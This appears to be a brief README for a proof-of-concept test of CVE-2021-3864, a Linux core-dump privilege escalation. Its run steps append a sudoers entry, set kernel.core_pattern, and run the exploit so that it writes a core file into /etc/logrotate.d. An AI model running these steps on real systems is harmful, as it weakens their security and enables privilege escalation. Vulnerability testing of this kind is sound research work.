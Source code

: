 Test for [CVE-2021-3864](https://access.redhat.com/security/cve/CVE-2021-3864).

How to run
----------

* create a user
* `echo <username> ALL= path/to/gen-core >> /etc/sudoers`
* `sysctl kernel.core_pattern=core`
* ./cve-2021-3864
* It should generate a core file in /etc/logrotate.d

